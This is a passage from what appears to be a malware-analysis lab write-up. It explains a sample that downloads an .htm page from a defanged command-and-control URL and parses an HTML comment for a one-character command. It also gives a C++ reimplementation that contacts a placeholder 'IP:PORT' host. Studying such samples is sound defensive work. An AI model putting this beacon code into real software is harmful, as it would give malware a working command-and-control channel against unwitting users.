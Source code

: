By looking at the APIs used in the function at `sub_401040`, it's easy to say that it may read some file content from the URL (http://www[.practicalmalwareanalysisc.]com/cc.htm). After reading the content, the malware tries to parse a HTML comment from the `.htm` file that starts with `<!--`. 

If the return value is `TRUE`, the malware prints a message with the parsed command and sleeps for 60000 milliseconds.

The reimplementation of this code looks like this:

```cpp
  char GetCommandFromInternet(void) {
    HINTERNET hInet = nullptr;
    HINTERNET hGetUrl = nullptr;

    BOOL status = FALSE;

    char* buffer = new char[512];
    DWORD size;

    hInet = InternetOpenA("Internet Explorer 7.5/pma", 0, nullptr, nullptr, 0);
    hGetUrl = InternetOpenUrlA(hInet, "http://IP:PORT/cc.htm", nullptr, 0, 0, 0);
    if (hGetUrl == NULL) {
      printf_s("Error 2.1: Fail to OpenUrl\n");
      InternetCloseHandle(hInet);
      status = FALSE;
    }
    else if (!InternetReadFile(hGetUrl, buffer, 512, &size)) {
      printf_s("Error 2.2: Fail to ReadFile\n");
      InternetCloseHandle(hInet);
      InternetCloseHandle(hGetUrl);
      status = FALSE;
    }
    else if (buffer[0] != '<') {
    _FailedCommand:
      printf_s("Error 2.3: Fail to get command\n");
      status = FALSE;
    }
    else {
      if (buffer[1] != '!')
        goto _FailedCommand;
      
      if (buffer[2] != '-')
        goto _FailedCommand;

      if (buffer[3] != '-')
        goto _FailedCommand;

      status = buffer[4];
    }

    delete[] buffer;

    return (char)status;
  }


  int main(int argc, char* argv, char* envp) {
    if (CheckInternetAccess() != 0) {
      char cmd = GetCommandFromInternet();
      if ((int)cmd != 0) {
        printf_s("Success: Parsed command is \"%c\"\n", cmd);
        Sleep(0xEA60);
      }
    }
    return ERROR_SUCCESS;
```